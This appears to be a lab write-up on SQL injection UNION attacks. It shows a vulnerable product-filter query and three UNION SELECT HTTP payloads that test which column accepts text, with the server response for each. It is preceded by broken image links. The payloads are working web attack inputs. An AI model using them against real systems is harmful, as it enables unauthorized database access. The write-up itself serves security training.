






# Lab: SQL injection UNION attack, finding a column containing text

### Vulnerability Overview
An SQL injection vulnerability exists in the product category filter parameter. Because user input is concatenated directly into the SQL query statement without validation or sanitization, an attacker can append a `UNION SELECT` query.

Once the number of columns returned by the query is determined, the next phase of exploitation requires finding which of those columns can accept a string (`VARCHAR`) data type. This allows the attacker to retrieve custom text-based information from other database tables. If an injected data type does not align with the backend column definition, the database engine will fail to execute the query and throw an error.

---

### Vulnerable Query
```sql
SELECT id, name, description FROM products WHERE category = 'Gifts'
```

---

### Exploitation
Based on initial structural enumeration, the base application query returns exactly **3 columns**. To find which column can handle string data, a target string value (`'CrRTK2'`) is iteratively rotated through each index placeholder alongside `NULL` values until the request executes with an HTTP `200 OK` response.

#### Target Injection Discovery Phase
1. **Testing Column 1:**
   ```http
   GET /filter?category=Gifts'+UNION+SELECT+'CrRTK2',NULL,NULL-- HTTP/2
   ```
   *Result:* `HTTP/2 500 Internal Server Error` (Data type mismatch)

2. **Testing Column 2 (Successful Solving Payload):**
   ```http
   GET /filter?category=Gifts'+UNION+SELECT+NULL,'CrRTK2',NULL-- HTTP/2
   ```
   *Result:* `HTTP/2 200 OK` (The backend successfully maps the string data type to Column 2 and displays the target payload on screen, completing the lab challenge).

3. **Testing Column 3:**
   ```http
   GET /filter?category=Gifts'+UNION+SELECT+NULL,NULL,'CrRTK2'-- HTTP/2
   ```
   *Result:* `HTTP/2 500 Internal Server Error` (Data type mismatch)

---

### Visual Reference
The folder structure for these reference image assets mirrors your Git configuration path layouts.











